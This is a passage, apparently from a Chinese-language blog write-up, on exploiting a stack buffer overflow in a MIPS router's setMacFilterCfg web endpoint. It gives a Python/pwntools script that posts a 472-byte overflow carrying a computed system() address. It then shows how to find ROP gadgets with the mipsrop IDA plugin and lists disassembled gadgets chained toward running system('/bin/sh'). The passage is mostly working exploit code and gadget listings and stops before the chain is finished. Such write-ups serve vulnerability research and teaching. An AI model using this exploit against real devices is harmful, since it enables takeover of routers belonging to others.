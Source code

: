   
测试下能不能到system。  
```
import requests
from pwn import *
 
url = "http://192.168.112.131/goform/setMacFilterCfg"
cookie = {"Cookie":"password=1111"}
 
libc_base=0x7f58454c - 0x0006054
system=0x0060320
 
system_addr=libc_base+system
 
data = {"macFilterType": "black", "deviceList":b"\r" +  b"A" * 472 + p32(system_addr)}
 
requests.post(url, cookies=cookie, data=data)
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZYLxb7XByF5359lybmd2hRJWYFUkibVzor1VGBqvyUFrLKGD0p8sibzNLg/640?wx_fmt=png "")  
### 构造rop链  
  
  
对于mips下rop链的构造，经常使用到的是move $a0 $s0，我们使用mipsrop去查找一些可用的。  
  
   
  
先下载mipsrop插件，随便都可以百度到，然后使用。  
  
   
  
7.5版本以上的ida先执行下面的语句。  
```
import mipsrop
mipsrop = mipsrop.MIPSROPFinder()
```  
  
  
  
然后mipsrop.find("move $a0 $s0")，可用的很多，这里我就直接选择第一个，这个就作为gadget2。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZYruCfnIqQgkhA0cGySQLiaB9wR0PUN9hTGYSfzJmJOMT9ePjEoAAX0BQ/640?wx_fmt=png "")  
```
.text:0000DC1C                 move    $a0, $s0
.text:0000DC20                 move    $t9, $s1
.text:0000DC24                 jalr    $t9 ; stat64
```  
  
  
当然我们还需要给里面的寄存器赋值，将$s0赋值为"/bin/sh"的地址，将$s1赋值为system的地址，这样就可以达到执行system("/bin/sh")的目的。  
  
   
  
实际上我们之前得到错误的system的地址的那些代码就可以作为给寄存器赋值的语句，并且可以跳转到gadget2。![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HTChwTbPQDUrl0FibBt2pZYGicXJyoTw7iabPN07UyD45FL7JcoiaNUNicKODGVWJ7Ud1VHKvMSe00ovw/640?wx_fmt=png "")  
  
```
.text:00060530                 lw      $ra, 0x18+var_s14($sp)
.text:00060534
.text:00060534 loc_60534:                               # CODE XREF: sub_603D8+138↑j
.text:00060534                 lw      $s4, 0x18+var_s10($sp)
.text:00060538                 lw      $s3, 0x18+var_sC($sp)
.text:0006053C                 lw      $s2, 0x18+var_s8($sp)
.text:00060540                 lw      $s1, 0x18+var_s4($sp)
.text:00060544                 lw      $s0, 0x18+var_s0($sp)
.text:00060548                 jr      $ra
.text:0006054C                 addiu   $sp, 0x30
```  
  
